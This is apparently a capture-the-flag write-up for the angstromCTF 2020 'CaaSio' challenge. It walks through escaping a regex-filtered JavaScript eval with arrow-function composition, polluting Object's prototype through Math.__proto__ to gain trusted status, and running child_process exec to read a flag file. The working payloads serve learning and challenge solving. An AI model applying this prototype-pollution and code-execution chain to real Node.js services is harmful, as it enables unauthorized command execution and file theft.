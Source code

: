 ```yaml
---
title: "ångstromCTF 2020 - CaaSio Writeup"
date: 2020-03-19T19:44:29Z
---
```


For CaaSio we had access to a calculator. The source is [here](/ctf/angstrom/caasio/caasio.js).

Later in the execution our query is `eval`'d so obviously we need to run something interesting there.

There are a lot of details involved so I'll start with the basic ones.

```js
if (name.length > 10) {
    console.log("Your name is too long, I can't remember that!");
    return;
}
user.name = name;
if (user.name == "such_a_trusted_user_wow") {
    user.trusted = true;
}
```

The code above stops us from inputing a name bigger than 10 characters,
so no way you'll get your `such_a_trusted_user_wow`.

```js
while (user.queries < 3)
```

This stops us from making more than 3 queries, but we'll only need two!

```js
if (prompt.length > 200) {
    console.log("That's way too long for me!");
    continue;
}
```

To finish the boring stuff, we cannot send a command with more than 200 characters. 
Still, no problem.

Let's get to the interesting stuff.

```js
let reg = /(?:Math(?:(?:\.\w+)|\b))|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)/g
// ......
if (!user.trusted) {
    prompt = (prompt.match(reg) || []).join``;
}
```

Given we are not trusted, queries we send are filtered by `reg`.
Effectively stopping most possible attempts.

```js
Object.freeze(global);
Object.freeze(Math);
```

This stops us from modifying `Math`, however it is only a shallow freeze.
This means that members of `Math` are not frozen, we will be taking advantage of that to get our trusted execution going!

So, starting with the regex, we can write `Math.any_kind_of_text`,
including `Math.__proto__`.
While `__proto__` cannot be reassigned, we can extend it, 
however we cannot write `Math.__proto__.obj`, as `obj` will be cut out.

Entering lambdas!
We can write `()=>` and while this does not make a multi line lambda, it allows us to make one action at a time.
Enabling composition!

We have our ingredients together!
First we need to get trusted.

```js
((Math)=>(Math.trusted=1))(((Math)=>(Math.__proto__))(Math))
```

You may be confused, in normal JS the code above looks like:

```js
function (Math) {
    Math.trusted = 1;
}(
    function (Math) {
        return Math.__proto__;
    }(Math)
);
```

Which in turn looks more like:

```js
function f(x) {
    return x.__proto__
}

function g(x) {
    return x.trusted = 1;
}

g(f(Math));
```

Why does this give us a trusted user?

`Math` inherits from `Object`, see [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Math), 
which means that when we mutate `Math.__proto__` we are mutating `Object.__proto__`, thus mutating every object, 
hence why `user.trusted` will be set to `1`.

So now we just need to read the file.

```js
const { exec } = require("child_process");

exec("cat /ctf/flag.txt", (error, stdout, stderr) => {
    console.log(`stdout: ${stdout}`);
});
```

Running the code above, minified, will yield the flag.

```
actf{pr0t0typ3s_4re_4_bl3ss1ng_4nd_4_curs3}
```
